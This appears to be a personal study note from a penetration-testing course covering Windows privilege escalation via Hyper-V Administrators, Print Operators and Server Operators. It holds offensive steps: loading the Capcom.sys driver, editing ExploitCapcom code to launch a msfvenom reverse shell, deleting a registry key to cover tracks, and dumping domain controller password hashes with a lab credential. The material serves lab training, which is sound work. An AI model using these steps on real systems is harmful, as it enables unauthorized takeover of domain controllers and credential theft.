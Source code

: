 ## Hyper-V Administrators

Hyper-V Admins could easily create a clone of the DC and mount the VDI/VHDX.

Upon deleteing a VM, `vmms.exe` attempts to restore the original file permissions of the
corresponding .vhdx file and does so as NT AUTHORITY/SYSTEM without impersonating
the user. WE can delete the .vhdx file and create a native hard link to point this file
to a protected SYSTEM file, which we will have full permissions to.

If the operating system is vulnerable to CVE-2018-0952 or CVE-2019-0841, we can leverage
this to gain SYSTEM privileges. Otherwise, we can try to take advantage of an application
on the server that has installed a service running in the context of SYSTEM.

### Target File

An example of this is Firefox, which installs the `Mozilla Maintenance Service`. We can update
this PoC to grant our current user full permissions on the file below:
https://raw.githubusercontent.com/decoder-it/Hyper-V-admin-EOP/master/hyperv-eop.ps1

![[Pasted image 20230107150113.png]]

#### Take Ownership of the File

![[Pasted image 20230107150133.png]]

#### Start Mozilla Maintenance Service

![[Pasted image 20230107150156.png]]

## Print Operators

`SeLoadDriverPrivilege`

This repo https://github.com/hfiref0x/UACME features a comprehensive list of UAC bypasses
which can be used form the command line.

#### Confirming Privileges

![[Pasted image 20230107150402.png]]

#### Checking Privileges Again

The `UACMe` repo features a comprehensive list of UAC bypasses from command line.
Examining the permissions again, we see `SeLoadDriverPrivilege` is visible but disabled.

![[Pasted image 20230107151523.png]]

It's well known that the driver `Capcom.sys` contains functionality to allow any user to execute
shellcode with SYSTEM privileges. We can use our privileges to load this vulnerable driver
and escalate privileges.

We can use this tool https://raw.githubusercontent.com/3gstudent/Homework-of-C-Language/master/EnableSeLoadDriverPrivilege.cpp to load the driver. The PoC enables the privilege as well as
loads the driver for us.

Download it locally and edit it, pasting the includes listed here:
```
#include <windows.h>
#include <assert.h>
#include <winternl.h>
#include <sddl.h>
#include <stdio.h>
#include "tchar.h"
```

Next, from Visual Studio 2019 Developer Command Prompt, compile it using `cl.exe`
Then download the Capcom.sys driver and save it to `C:\temp`. Issue the command to add
reference to this driver under our HKEY_CURRENT_USER tree.

![[Pasted image 20230107151844.png]]
![[Pasted image 20230107151858.png]]

#### Verify the Driver is not Loaded

![[Pasted image 20230107151939.png]]

#### Verify Privilege is enabled

![[Pasted image 20230107152054.png]]

#### Verify Capcom Driver is listed

![[Pasted image 20230107152122.png]]

#### Use ExploitCapcom Tool to Escalate Privileges

![[Pasted image 20230107152149.png]]

## Alternate Exploitation - No GUI

If we do not have GUI access to the target, we will have to modify the `ExploitCapcom.cpp` code before compiling. Here we can edit line 292 and replace `C:\\Windows\\system32\\cmd.exe"` with, say, a reverse shell binary created with `msfvenom`, for example: `c:\ProgramData\revshell.exe`.

```c
// Launches a command shell process
static bool LaunchShell()
{
    TCHAR CommandLine[] = TEXT("C:\\Windows\\system32\\cmd.exe");
    PROCESS_INFORMATION ProcessInfo;
    STARTUPINFO StartupInfo = { sizeof(StartupInfo) };
    if (!CreateProcess(CommandLine, CommandLine, nullptr, nullptr, FALSE,
        CREATE_NEW_CONSOLE, nullptr, nullptr, &StartupInfo,
        &ProcessInfo))
    {
        return false;
    }

    CloseHandle(ProcessInfo.hThread);
    CloseHandle(ProcessInfo.hProcess);
    return true;
}
```

The `CommandLine` string in this example would be changed to:

```c
 TCHAR CommandLine[] = TEXT("C:\\ProgramData\\revshell.exe");
```

We would set up a listener based on the msfvenom payload we generated and hopefully receieve
a reverse shell connection back when executing the exploit. If the reverse connection is blocked
we can try a bind shell or exec/add user payload.

#### Automating the Steps

We can use a tool such as EoPLoaderDriver to automate the process.
```
EoPLoadDriver.exe System\CurrentControlSet\Capcom C:\Tools\Capcom.sys
```

## Clean-up

#### Removing Registry Key

We can cover our tracks a bit by deleting the registry key added earlier.
```cmd-session
reg delete HKCU\System\CurrentControlSet\Capcom
```

# Server Operators

The Server Operators groups allows members to administer Windows servers without needing
assignment of Domain Admin privileges. It's a very highly privileged group.

Membership of this group confers the powerful `SeBackupPrivilege` and `SeRestorePrivilege`.

#### Querying the AppReadiness Service

![[Pasted image 20230107152440.png]]

#### Checking Service Permissions with PsService

PsService is part of the `Sysinternals suite` to check permissions on the service.

PsService works much like the sc utility and can display service status and configurations, also
allowing you to start, stop, pause, resume and restart services both locally and remotely.

![[Pasted image 20230107152640.png]]

#### Checking Local Admin Group Membership

![[Pasted image 20230107152657.png]]

#### Modifying the Service Binary Path

![[Pasted image 20230107152716.png]]

#### Starting the Service

![[Pasted image 20230107152731.png]]

#### Confirming Local Admin Group Membership

![[Pasted image 20230107152752.png]]

#### Confirming Local Admin Access on the DC
```bash
crackmapexec smb 10.129.43.9 -u server_adm -p 'HTB_@cademy_stdnt!'
```

#### Retrieving NTLM Password Hashes from the DC
```bash
secretsdump.py server_adm@10.129.43.9 -just-dc-user administrator
```

